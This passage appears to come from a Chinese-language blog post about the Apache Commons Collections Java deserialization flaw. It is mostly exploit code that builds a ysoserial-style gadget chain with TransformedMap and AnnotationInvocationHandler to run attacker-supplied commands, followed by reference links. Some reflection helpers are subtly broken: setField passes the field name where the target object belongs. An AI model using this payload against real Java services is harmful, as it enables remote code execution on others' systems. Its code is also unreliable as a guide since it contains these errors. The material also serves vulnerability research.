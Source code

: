 	, execArgs),
		new ConstantTransformer(1)
	}
	;
	final Transformer transformerChain = new ChainedTransformer(
		new Transformer[]{new ConstantTransformer(1)
	}
	);
	//Transformer transformerChain = new ChainedTransformer(transformers);
	Map map = new HashMap();
	Map transformedmap = TransformedMap.decorate(map, null, transformerChain);
	transformedmap.put("value", "xx");
	Class cls = Class
		.forName("sun.reflect.annotation.AnnotationInvocationHandler");
	InvocationHandler handler = (InvocationHandler) getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").newInstance(Retention.class, transformedmap);
	Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
	return handler;
	}
	public static void main(final String[] args) throws Exception {
	PayloadRunner.run(CommonsCollections7.class, args);
	}
	public static Boolean isApplicableJavaVersion() {
	return JavaVersion.isAnnInvHUniversalMethodImpl();
	}
	public static Constructor getFirstCtor(final String name)
		throws Exception {
	final Constructor<?> ctor = Class.forName(name)
		.getDeclaredConstructors()[0];
	ctor.setAccessible(true);
	return ctor;
	}
	public static Field getField(Class<?> clazz, String fieldName) throws NoSuchFieldException {
	Field field = clazz.getDeclaredField(fieldName);
	if (field != null)
		field.setAccessible(true); else if (clazz.getSuperclass() != null)
		field = getField(clazz.getSuperclass(), fieldName);
	field.setAccessible(true);
	return field;
	}
	public static void setField(Object object, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {
	Field field = getField(object.getClass(), fieldName);
	field.set(fieldName, value);
	}
	
![](http://pic.findbugs.top/18-2-1/29737134.jpg)

## 参考链接 
[https://github.com/frohoff/ysoserial]()
[https://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/]()
